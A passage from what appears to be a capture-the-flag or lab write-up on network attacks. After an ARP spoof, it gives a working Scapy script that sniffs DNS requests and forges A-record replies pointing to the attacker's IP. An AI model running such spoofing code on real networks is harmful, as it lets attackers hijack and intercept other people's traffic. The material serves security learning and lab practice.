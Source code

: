 ```python

if __name__ == "__main__":
    main()
```

Running this script and observing the network traffic, we can see that after we successfully reply with our ARP spoof packet we get a DNS request sent to us for the host. Again, using the provided script as a base, we can use Scapy to craft a DNS response providing our IP address as the A record of the DNS lookup.

```python
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    print('Incoming')
    packet.show()
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src)   # need to replace mac addresses
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)            # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # need to replace ports
    dns = DNS(
        id=packet[DNS].id,
        qr=1,
        aa=1,
        qd=packet[DNS].qd,
        an=DNSRR(rrname=packet[DNSQR].qname, type='A', ttl=3600, rdata=ipaddr)
    )
    dns_response = eth / ip / udp / dns
    print('Response')
    dns_response.show()
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )

    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

if __name__ == "__main__":
    main()
```
